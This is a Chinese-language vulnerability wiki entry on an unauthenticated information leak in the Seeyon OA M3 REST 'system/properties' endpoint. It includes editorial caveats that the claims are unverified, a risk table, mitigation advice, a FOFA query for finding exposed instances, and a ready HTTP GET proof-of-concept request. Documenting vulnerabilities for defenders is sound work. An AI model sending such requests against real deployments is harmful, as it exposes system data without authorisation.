

# 致远OA / M3 REST system/properties信息泄漏

## 条目说明

- 对象与具体问题：致远OA / M3 REST；system/properties信息泄漏
- 版本、配置及部署条件：无版本/补丁；具体返回属性未说明
- 认证与权限前提：声称未认证，无Cookie请求
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 请求入口明确，但敏感信息类别/字段和是否本来公开仅靠截图，无文本证据
- 在野利用/广影响均模板无来源，HTTP未围栏
- 不应把正常系统版本属性一律认定高危敏感数据泄漏

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

致远OA 接口 properties 接口处存在信息泄露漏洞，未经身份验证获取敏感信息，使系统处于极不安全的状态。

## 影响版本

致远OA

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="致远互联-OA"

POC/EXP：

```http
GET /seeyon/rest/m3/common/system/properties HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```





## 修复方案

**临时缓解方案**

接口设置访问权限或限制访问来源地址，如非必要，不要将系统开放在互联网上。

对接口进行严格的权限校验。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
